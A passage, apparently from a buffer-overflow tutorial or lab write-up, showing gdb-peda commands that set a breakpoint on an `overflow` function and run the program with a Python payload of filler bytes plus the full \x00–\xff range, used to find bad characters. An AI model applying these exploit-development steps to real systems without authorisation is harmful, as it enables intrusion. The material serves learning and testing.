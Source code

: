 Then, set breakpoint in function `overflow`:
```bash
gdb-peda$ b overflow
```

![bad chars 1](/assets/images/15/2021-10-21_17-40.png){:class="img-responsive"}          

We can execute the characters and look at the memory:
```bash
gdb-peda$ r $(python -c 'print "\x41" * (272 - 256 - 4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" * 25 + "\x42" * 4')
```
